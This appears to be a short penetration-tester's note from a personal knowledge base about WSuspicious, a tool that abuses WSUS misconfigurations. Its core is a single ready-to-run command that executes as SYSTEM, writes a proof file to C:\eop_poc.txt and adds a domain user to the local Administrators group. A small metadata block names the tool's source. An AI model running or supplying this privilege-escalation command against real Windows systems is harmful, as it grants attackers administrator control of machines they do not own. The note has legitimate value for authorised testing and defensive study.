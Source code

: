 # WSuspicious

## [[09.AD Misconfigurations/WSUS]] [[Misconfigurations/WSUS]]
1. Add user to Admin and drop file as confirmation:
    ```bash
    .\WSuspicious.exe /command:" -accepteula -s -d cmd /c ""echo eop_executed > C:\\eop_poc.txt; net localgroup Administratoren ext_ecorp_user /add""" /autoinstall
    ```

```meta
requirements: 
results: 
oss: #win
source: https://github.com/GoSecure/WSuspicious
description: WSUS exploitation tool
```